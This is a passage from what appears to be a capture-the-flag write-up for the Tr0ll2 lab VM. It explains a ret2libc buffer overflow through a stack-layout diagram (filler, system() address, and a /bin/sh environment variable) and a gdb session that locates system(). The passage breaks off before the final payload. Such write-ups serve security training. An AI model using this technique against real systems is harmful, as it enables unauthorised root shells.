 
Ret2libc
--------

So, with ret2libc things are a little bit different. If NX was enabled, it would mean we can only execute code from executable sectors of the program and the approach described above wouldn't work.

In order to bypass this, we can utilise functions in the C libraries that are generally loaded by majority of the programs. One particular function we would want to use is ```system()``` that invokes system commands passed in. Because it takes a parameter, we need to create a fake stack frame to make it look like it's really a function being called.

Essentially, we want to make the stack look as follows:

{% codeblock %}
.
                -- Current --                    -- Target --
     0000
             ------------------               ------------------
             |                |               |                |
             |                |               | AAAAAAAAAAAAAA |
       ^     |     Buffer     |               | AAAAAAAAAAAAAA |   
       |     |                |   268 bytes   | AAAAAAAAAAAAAA |  Overflow buffer with dummy data
     stack   |                |               | AAAAAAAAAAAAAA |
     growth  ------------------               | AAAAAAAAAAA... |
       |     |  Base pointer  |               |                |  
       |     ------------------               ------------------
             | Return address |    4 bytes    |    system()    |   system() call
             ------------------               ------------------
             |                |    4 bytes    |      BBBB      |   dummy return from system()
             |  Rest of the   |               ------------------
             |     stack      |    4 bytes    | /bin/sh (&EGG) |   address of the EGG environment variable
             |                |               ------------------   containing string argument passed to system()
             |      ...       |               |       ...      |
     FFFF
{% endcodeblock %}

First, let's get the address of ```system``` using ```gdb```

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door3$ gdb r00t 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /nothing_to_see_here/choose_wisely/door3/r00t...done.
(gdb) run
Starting program: /nothing_to_see_here/choose_wisely/door3/r00t 
Usage: /nothing_to_see_here/choose_wisely/door3/r00t input
[Inferior 1 (process 2379) exited normally]
(gdb) p system
$1 = {<text variable, no debug info>} 0x40069060 <system>
```
